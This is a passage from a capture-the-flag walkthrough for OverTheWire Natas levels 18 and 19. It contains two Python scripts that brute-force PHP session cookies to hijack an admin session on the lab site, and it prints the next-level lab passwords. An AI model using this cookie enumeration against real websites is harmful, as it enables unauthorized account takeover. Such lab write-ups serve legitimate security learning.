 ``` python
import requests


success = 'You are an admin'
session_id = 0
while session_id < 640:
    cookie = {'PHPSESSID': str(session_id)}
    print 'Trying with session ID: ' + str(session_id)
    guess = requests.get('http://natas18.natas.labs.overthewire.org/', \
                          auth = ('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'), \
                          cookies=cookie)
    if success in guess.text:
        print guess.text
        print 'Admin session ID was: ' + str(session_id)
        break
    session_id += 1
```

I ran it and it discovered the admin session ID was 46. Password for the next level is <code>4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</code>


### Level 19
    
{% img center /images/overthewire/natas/natas19.png 'natas19' 'natas 19' %}

We don't have source code this time and apparently the session IDs aren't sequential anymore..Let's see. I logged in with some dummy values and noticed the PHPSESSID cookie is hex encoded now. Decoding it..surprise! It looked like this: <code>512-admin</code>. *admin* was what I put in the username field. I tried more bogus values for username and password and noticed that the session ID cookie is always constructed like this: <code>*random number-username*</code>. So again, brute forcing to the rescue! Since I didn't know how much of the code from the previous challenge has changed, I assumed the max session ID value remained the same:

``` python
import requests


success = 'You are an admin'
session_id = 0
while session_id < 640:
    pattern = str(session_id) + '-admin'
    cookie = {'PHPSESSID': pattern.encode('hex')}
    print 'Trying with session ID: ' + pattern
    guess = requests.get('http://natas19.natas.labs.overthewire.org/', \
                          auth = ('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'), \
                          cookies=cookie)
    if success in guess.text:
        print guess.text
        print 'Admin session ID was: ' + pattern
        print cookie
        break
    session_id += 1
    
```
